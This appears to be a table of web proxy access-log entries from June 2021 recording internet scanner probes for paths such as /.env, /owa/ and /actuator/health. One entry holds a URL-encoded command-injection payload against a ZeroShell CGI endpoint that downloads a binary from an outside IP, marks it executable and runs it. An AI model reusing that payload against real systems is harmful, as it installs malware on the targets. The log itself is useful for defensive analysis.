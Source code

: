 | 2021-06-05 13:43:55.440 | 13.85.56.125:52524 [05/Jun/2021:13:43:55.440] primary primary/<NOSRV> 0/-1/-1/-1/0 403 197 - - PR-- 1/1/0/0/0 0/0 "POST / HTTP/1.1"                                                                                                                                                                                                                          |
| 2021-06-05 13:29:45.135 | 64.62.197.182:54384 [05/Jun/2021:13:29:45.135] primary primary/<NOSRV> 0/-1/-1/-1/0 403 197 - - PR-- 1/1/0/0/0 0/0 "GET / HTTP/1.1"                                                                                                                                                                                                                          |
| 2021-06-05 13:29:16.444 | 195.181.90.96:59697 [05/Jun/2021:13:29:16.444] primary primary/<NOSRV> 0/-1/-1/-1/0 403 197 - - PR-- 1/1/0/0/0 0/0 "GET / HTTP/1.1"                                                                                                                                                                                                                          |
| 2021-06-05 13:19:42.761 | 192.241.211.250:35542 [05/Jun/2021:13:19:42.760] primary primary/<NOSRV> 0/-1/-1/-1/0 403 197 - - PR-- 1/1/0/0/0 0/0 "GET /hudson HTTP/1.1"                                                                                                                                                                                                                  |
| 2021-06-05 13:11:11.432 | 186.33.110.162:55832 [05/Jun/2021:13:11:11.432] primary primary/<NOSRV> 0/-1/-1/-1/0 403 197 - - PR-- 1/1/0/0/0 0/0 "GET / HTTP/1.1"                                                                                                                                                                                                                         |
| 2021-06-05 13:06:38.005 | 173.76.156.197:48838 [05/Jun/2021:13:06:38.004] primary primary/<NOSRV> 0/-1/-1/-1/0 403 197 - - PR-- 1/1/0/0/0 0/0 "GET / HTTP/1.1"                                                                                                                                                                                                                         |
| 2021-06-05 12:34:16.626 | 50.116.22.34:57226 [05/Jun/2021:12:34:16.623] primary~ backend-ses/server-ses 0/0/1/2/3 404 364 - - ---- 1/1/0/0/0 0/0 "GET /owa/ HTTP/1.1"                                                                                                                                                                                                                  |
| 2021-06-05 12:33:27.581 | 45.79.183.165:61000 [05/Jun/2021:12:33:25.566] primary/2: SSL handshake failure                                                                                                                                                                                                                                                                              |
| 2021-06-05 12:25:30.955 | 128.14.134.134:53634 [05/Jun/2021:12:25:30.952] primary~ backend-ses/server-ses 0/0/1/1/2 404 360 - - ---- 1/1/0/0/0 0/0 "GET / HTTP/1.1"                                                                                                                                                                                                                    |
| 2021-06-05 11:56:16.701 | 34.122.23.55:44010 [05/Jun/2021:11:56:16.650] primary~ backend-ses/server-ses 0/0/1/50/51 404 376 - - ---- 1/1/0/0/0 0/0 "GET /cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Awget+http%3A%2F%2F87.121.98.34%2Fzzz%2Fx86.deathh+-O+%2Ftmp%2Fdata671%0A+chmod+777+%2Ftmp%2Fdata671%0A+%2Ftmp%2Fdata671+zeroshell.x86%0A%27 HTTP/1.1" |
| 2021-06-05 11:46:13.171 | 192.241.213.20:54292 [05/Jun/2021:11:46:13.171] primary primary/<NOSRV> 0/-1/-1/-1/0 403 197 - - PR-- 1/1/0/0/0 0/0 "GET /actuator/health HTTP/1.1"                                                                                                                                                                                                          |
| 2021-06-05 10:53:25.846 | 51.210.137.28:63124 [05/Jun/2021:10:53:25.843] primary~ backend-ses/server-ses 0/0/1/1/2 404 361 - - ---- 1/1/0/0/0 0/0 "POST / HTTP/1.1"                                                                                                                                                                                                                    |
| 2021-06-05 10:53:25.393 | 51.210.137.28:63072 [05/Jun/2021:10:53:25.390] primary~ backend-ses/server-ses 0/0/1/1/2 404 364 - - ---- 1/1/0/0/0 0/0 "GET /.env HTTP/1.1"                                                                                                                                                                                                                 |
| 2021-06-05 10:53:24.805 | 51.210.137.28:63036 [05/Jun/2021:10:53:24.804] primary primary/<NOSRV> 0/-1/-1/-1/0 403 197 - - PR-- 1/1/0/0/0 0/0 "POST / HTTP/1.1"                                                                                                                                                                                                                         |
| 2021-06-05 10:53:24.362 | 51.210.137.28:62998 [05/Jun/2021:10:53:24.361] primary primary/<NOSRV> 0/-1/-1/-1/0 403 197 - - PR-- 1/1/0/0/0 0/0 "GET /.env HTTP/1.1"                                                                                                                                                                                                                      |